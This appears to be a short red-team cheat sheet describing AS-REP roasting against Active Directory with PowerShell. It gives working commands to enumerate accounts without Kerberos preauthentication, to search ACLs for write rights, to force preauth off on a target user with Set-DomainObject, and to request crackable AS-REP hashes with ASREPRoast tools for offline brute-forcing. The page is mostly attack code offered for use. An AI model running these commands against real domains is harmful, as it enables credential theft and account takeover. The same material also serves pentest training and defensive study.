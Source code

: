 ```yaml
---
title: "AS-REP Roast: PowerShell"

tags: [
	hacking,
	kerberos,
	red-team
]
---
```


If a user's UserAccountControl settings have `Do Not Require Kerberos preauthentication` enabled it is possible to grab user's crackable AS-REP and brute-force it offline.

With sufficient rights (GenericWrite or GenericAll), Kerberos preauth can be forced disabled as well.

#### Enumeration
```PowerShell
# Using PowerView (dev) 
Get-DomainUser -PreauthNotRequired -Verbose  
```

```PowerShell
# Using ActiveDirectory module:  
Get-ADUser -Filter {DoesNotRequirePreAuth -eq $True} -Properties DoesNotRequirePreAuth
```

```PowerShell
# Enumerate the permissions for RDPUsers on ACLs using PowerView(dev):
Invoke-ACLScanner -ResolveGUIDs |
?{$_.IdentityReferenceName -match "RDPUsers"} 
```

#### Forcing Kerberos pre-auth
```PowerShell
Set-DomainObject -Identity TargetUser5 -XOR @{useraccountcontrol=4194304} –Verbose
```

#### Request encrypted AS-REP for offline brute-force
https://github.com/HarmJ0y/ASREPRoast

```PowerShell
# Using ASREPROAST 
Get-ASREPHash -UserName VPN1user -Verbose  
```

```PowerShell
# To enumerate all users with Kerberos preauth disabled and request a hash  
Invoke-ASREPRoast -Verbose
```
